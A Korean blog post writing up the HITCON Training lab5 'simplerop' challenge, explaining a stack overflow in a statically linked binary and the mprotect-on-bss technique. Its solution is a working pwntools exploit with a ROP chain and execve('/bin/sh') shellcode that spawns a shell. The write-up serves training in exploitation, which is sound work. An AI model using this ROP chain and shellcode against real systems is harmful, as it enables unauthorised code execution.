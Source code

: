 ```yaml
---
layout: post
title: "[HITCON Training] lab5"
comments : true
category : War Game
---
```


# 문제
***

해당 바이너리는 다음과 같이 구성되어 있다.
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-14h]

  puts("ROP is easy is'nt it ?");
  printf("Your input :");
  fflush(stdout);
  return read(0, &v4, 100);
}
```

근데 어셈블리어를 보면 메인 함수의 prologue에 ```and esp, 0xfffffff0 ``` 명령어가 있는 것을 볼 수 있다. 따라서 실제 v4의 위치는 ebp-0x14가 아니고 직접 확인해야 한다.

또한 해당 바이너리는 statically linked가 되어 있다. (system 함수와 execve 함수 등이 없기 때문에 쉘 코드 삽입을 통해서 exploit을 해야 한다.)  

## exploit 방법
NX  mprotect 함수를 통해 bss 영역에 rwx 권한을 부여하고 해당 영역에 shellcode를 삽입한다. 그리고 shellcode로 jmp하면 exploit을 할 수 있다. 
(bss 영역의 앞 쪽에 stdin 이나 stdout 등으로 쓰이는 변수가 저장되어 있기 때문에 bss + X 에 shellcode를 삽입하는게 좋음)
 
 
# 풀이

```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab5/simplerop"
nop="\x90"*50
shell="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"

p=process(file_path)
p.recvuntil("input :")

mprotect=0x806d870
read=0x806cd50
pppr=0x080b4f39

bss_sec=0x080eb000


pay="A"*32
pay+=p32(mprotect)
pay+=p32(pppr)
pay+=p32(bss_sec)
pay+=p32(0x1000)
pay+=p32(7)
pay+=p32(read)
pay+=p32(bss_sec)
pay+=p32(0)
pay+=p32(bss_sec)
pay+=p32(0x100)


p.send(pay)
time.sleep(0.1)
p.send(nop+shell)
p.interactive()

```

# 알게 된 것
***

#### 1. mmap 함수
void * mmap(void *start, size_t length, int prot, int flags, int fd, off_t offset);
<br/>
mmap 함수는 파일을 메모리에 대응시키는 함수이다. 즉, 메모리를 할당하고 fd에 대응되는 파일을 해당 메모리와 연결시키는 역할을 한다. 만약 fd 값이 -1이면 순수하게 메모리를 할당한다. 

여기서 start에 들어가는 주소는 page size의 배수여야 한다. 또한 이 주소는 할당되지 않은 메모리여야 한다. 

#### 2. mprotect 함수 
int mprotect(void *addr, size_t len, int prot);
<br/>
mprotect의 addr도 mmap 함수와 마찬가지로 page size의 배수여야 한다. 그리고 이 주소는 이미 할당된 메모리의 주소여야 한다. 

#### 3. bss 영역의 주소는 readelf -S [binary] 를 통해 알 수 있다.

